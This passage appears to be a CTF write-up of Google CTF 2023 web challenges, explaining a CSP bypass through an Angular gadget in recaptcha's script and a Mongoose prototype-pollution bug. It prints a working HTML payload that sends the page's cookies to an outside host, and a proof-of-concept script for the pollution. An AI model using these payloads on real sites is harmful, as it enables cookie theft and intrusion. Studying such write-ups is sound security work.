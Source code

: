 It could have been done in just a few hours initially, what a pity.

Here is the author's exploit, worth learning: [https://github.com/google/google-ctf/blob/master/2023/web-postviewer2/solution/solve.html](https://github.com/google/google-ctf/blob/master/2023/web-postviewer2/solution/solve.html)

### NOTENINJA (3 solves)

Basically, you can insert any HTML in this challenge, but the key point is the CSP: `script-src 'self' https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/;`

Initially, I thought this challenge used Next.js and would be similar to the approach used in [corCTF 2022](https://blog.huli.tw/2022/08/21/en/corctf-2022-modern-blog-writeup/). However, I tried for a long time but couldn't figure it out. Only after the competition did I realize that this challenge was just about finding the CSP gadget for recaptcha...

Inside the recaptcha website, there is an Angular that can be used as a gadget. So the final solution is:

``` html
++++++++++++++++++++++++++++++++++++++
<div
  ng-controller="CarouselController as c"
  ng-init="c.init()"
>
&#91[c.element.ownerDocument.defaultView.parent.location="http://google.com?"+c.element.ownerDocument.cookie]]
<div carousel><div slides></div></div>

<script src="https://www.google.com/recaptcha/about/js/main.min.js"></script>
++++++++++++++++++++++++++++++++++++++
```

It's also a less-known CSP bypass that I learned.

Also, another team found a Mongoose 0day vulnerability: [Mongoose Prototype Pollution Vulnerability in automattic/mongoose](https://huntr.dev/bounties/1eef5a72-f6ab-4f61-b31d-fc66f5b4b467/)

The reason is in this line of code: [https://github.com/google/google-ctf/blob/master/2023/web-noteninja/challenge/src/pages/api/notes/%5Bid%5D.js#L74](https://github.com/google/google-ctf/blob/master/2023/web-noteninja/challenge/src/pages/api/notes/%5Bid%5D.js#L74)

``` js
await Note.findByIdAndUpdate(id, { ...req.body, htmlDescription: htmlDescription });
```

It directly takes in the entire body, and then you can create a prototype pollution through `$rename`:

``` js
import { connect, model, Schema } from 'mongoose';

await connect('mongodb://127.0.0.1:27017/exploit');

const Example = model('Example', new Schema({ hello: String }));

const example = await new Example({ hello: 'world!' }).save();
await Example.findByIdAndUpdate(example._id, {
    $rename: {
        hello: '__proto__.polluted'
    }
});

// this is what causes the pollution
await Example.find();

const test = {};
console.log(test.polluted); // world!
console.log(Object.prototype); // [Object: null prototype] { polluted: 'world!' }
```
